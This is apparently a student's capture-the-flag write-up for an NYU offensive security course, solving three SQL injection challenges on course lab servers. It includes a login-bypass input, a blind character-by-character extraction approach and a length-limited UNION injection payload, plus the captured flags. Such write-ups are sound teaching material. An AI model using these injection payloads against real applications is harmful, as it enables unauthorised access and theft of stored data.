



# CSGY 9223 Intro to Offensive Security
# Week 11 Challenges
# nam10102

## Challenge - sqli-1
```
Think you’re slick enough to sneak in as admin?

http://offsec-chalbroker.osiris.cyber.nyu.edu:1504
```

This one appears pretty straight forward. Enter the username "admin" followed by a comment to break the SQL:

Enter "admin' --|" as the user name.



```aiignore
Profile
Welcome, admin' --|!

flag{y0u_sh4ll_n0t_p4ss...0h_w4it_y0u_d1d!_3ef526c85d7f774d}
```

Although this was solved w/out any scripting tools. I want to create a solver to form a base to be extended in future, more complicated, challenges.

Create sqli-1_solver.py and run:

```aiignore
C:\Users\nmaiorana\anaconda3\envs\CS-GY_9223_IntroOffSec\python.exe C:\Users\nmaiorana\Anaconda_Projects\csgy9223_IntroOffSec\week_11\sqli-1_solver.py 
200
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Profile</title>
    <link rel="stylesheet" href="/static/styles.css">
</head>

<body>
    <div class="container">
        <h1>Profile</h1>
        <p>Welcome, admin&#39; --|!</p>
        <p class="flag">flag{y0u_sh4ll_n0t_p4ss...0h_w4it_y0u_d1d!_3ef526c85d7f774d}</p>
        <a href="/logout" class="btn">Logout</a>
    </div>
</body>

</html>

Process finished with exit code 0
```
## Challenge - sqli-2
```
Ever wondered what it’s like to have all the data, not just admin?

http://offsec-chalbroker.osiris.cyber.nyu.edu:1505
```
This one was interesting. When I first tried the easy approach I got:



So now I had to start poking around. In retrospective, I could have used intuition on this one, but I approached it methodically and started building a solver script: sqli-2_solver.py.

I built a series of functions to slowly leak information from the DB:
- check_login_success() - Sanity check
- find_table_count() - Find the number of tables (1)
- find_table_names() - Get the table names ("users")
- find_table_rows() - Count the number of rows in a table (1)
- find_column_count() - Count the number of columns for a table (2)
- find_column_names() - Get the column names for a table (['username', 'password'])
- leak_column_value() - Leak the data from a column ("password")

I set the script so that once I got the value I needed for an item, that part was skipped on the next run by setting the leaked value.

After running the first ones that gave me all the information for the DB, I used the last one to get the value of the password for the single row in the "users" table. This was done by checking character by character given a list of characters:
- start_value - In case I had to start over, I would get hits faster
- "_{}"
- string.digits
- string.ascii_lowercase
- string.punctuation
- " "

My first run also had uppercase letters, but those were not needed.


Every time I would get a character hit, I would increase the index of the column value and start over with the list of characters.

The final result was:  

Password: flag{n0_sql_w4s_h4rm3d_1n_m4k1ng_th1s_ch4ll3ng3_89c18293074fbf99}

## Challenge - sqli-3
```
Exploit SQL vulnerability to retrieve the flag stored in a flag table.

http://offsec-chalbroker.osiris.cyber.nyu.edu:1506
```
This one was very tricky. The hard part was only having 38 characters to work with in both the username and password field.
Because of this, started out by making the username, password, description and hobby only single characters:

```aiignore
Using payload: {'username': 'a', 'password': 'p', 'description': 'd', 'hobby': 'h'}
```
Looking at the welcome screen, the username, description and hobby are displayed:



According to the challenge description, we needed to get the flag from the flag table. How can we get the flag into the description or hobby field? A UNION operation can do it, but these 38 character limitations...

First off, the initial SELECT statement returns 5 not 4 values. There must be something added to the SELECT statement. I found this out by attempting to determine how many values were being returned using the find_column_count() function. This one kept sending the UNION SELECT with 1, then 1,1 until we hit a number of 1's that worked. 5 was this number. 

I'll attempt to use both the username and password fields.  After many testing scenarios. I ended up with this in my local sqlite:

```aiignore
sqlite> select 1, username, password, description, hobby from users where username='a'UNION SELECT 1,1,0,' password = ',flag
from flag;
1|1|0| password = |flag{}
1|a|p|d|h
```
I had to play around with this for a while since if I put the "flag from flag" operation too soon, it broke the query. I also had to use " instead of ', because the single quotes were not being interpreted by the sqlite parser.

So in burp I sent the following parameters:
```aiignore
username=a' UNION SELECT 1,1,0,"&password=",flag from flag;--
```

And the results: flag{m4nu4l_1nject1on_1s_s0_much_fun_15nt_1t?_7403ef94a8dadb81}